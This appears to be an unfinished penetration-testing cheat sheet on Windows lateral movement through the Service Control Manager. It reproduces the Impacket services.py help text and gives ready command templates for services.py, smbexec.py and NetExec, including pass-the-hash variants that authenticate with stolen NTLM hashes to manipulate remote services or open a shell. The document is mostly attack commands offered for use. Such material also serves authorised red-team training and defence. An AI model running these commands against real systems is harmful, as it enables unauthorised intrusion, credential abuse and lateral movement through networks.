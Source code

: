 # Unix Shell

Search Tag(s): #lateral-movement #service-control-manager #windows

## 01 - Impacket

### 1.1 - Services

#### 1.1.1 - Help Menu

```
$ services.py -h
Impacket v0.11.0 - Copyright 2023 Fortra

usage: services.py [-h] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-target-ip ip address]
                   [-port [destination port]]
                   target {start,stop,delete,status,config,list,create,change} ...

Windows Service manipulation script.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  {start,stop,delete,status,config,list,create,change}
                        actions
    start               starts the service
    stop                stops the service
    delete              deletes the service
    status              returns service status
    config              returns service configuration
    list                list available services
    create              create a service
    change              change a service configuration

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid
                        credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If ommited it will use whatever was specified as target. This is useful when target
                        is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```

#### 1.1.2 - Usage

TODO: Fill this info

```
$ services.py [<domain>/]<username>:<password>@<IP> [-codecs <codec>] list
```

Pass the Hash

```
$ services.py [<domain>/]<username>@<IP> -hashes <ntlm_hash> list

$ services.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<NT> list

$ services.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT> list
```

### 1.2 - SMBExec

Authenticate via impacket script with `smbexec`.

```
$ smbexec.py [<domain>/]<username>:<password>@<IP> -shell-type <cmd.exe | powershell.exe> [-codecs <codec>]
```

Pass the Hash

```
$ smbexec.py <username>@<IP> -hashes <ntlm_hash>

$ smbexec.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```

## 02 - NetExec

```
$ netexec smb <IP> --exec-method smbexec -u "<username>" -p "<password>" [-d <domain> | --local-auth]

$ netexec smb <IP> --exec-method smbexec -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

---
## References

- [Hacktricks: SmbExec/ScExec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)

- [nv2lt: Windows Lateral Movement with SMB, PsExec and Alternatives](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)